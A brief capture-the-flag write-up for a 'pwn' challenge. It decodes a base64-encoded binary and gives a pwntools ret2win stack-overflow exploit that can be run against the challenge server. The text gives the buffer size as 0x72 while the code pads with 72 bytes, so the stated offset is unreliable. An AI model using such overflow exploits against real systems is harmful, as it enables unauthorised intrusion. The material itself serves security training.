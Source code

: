 # spam

**Category**: pwn

**Points**: 200

kaafi easy

`nc 195.154.231.70 5428`

## Files

- [f](./f)

## Solution

the given file is a base64 encoded binary. the first step is to decode it.

```python
import base64

with open('f', 'rb') as f:
    base64_data = f.read()
    binary_data = base64.b64decode(base64_data)
    with open('chall', 'wb') as output_f:
        output_f.write(binary_data)
```

another simple ret2win exploit. the buffer is 0x72 bytes long, so we need to fill it up, then add the address of the win function.

```python
from pwn import *

binary = context.binary = ELF("./chall", checksec=False)
if args.REMOTE:
    p = remote("195.154.231.70", 5428)
else:
    p = process(binary.path)

payload = b"A" * 72 # offset found using gdb
payload += p64(binary.sym.unreeeeeeeeeeeeeeeeeeeeeeal)

p.sendlineafter(b"today: ", payload)
output = p.recvall().decode("latin-1")
log.success(output[output.find("unreal") :])
```
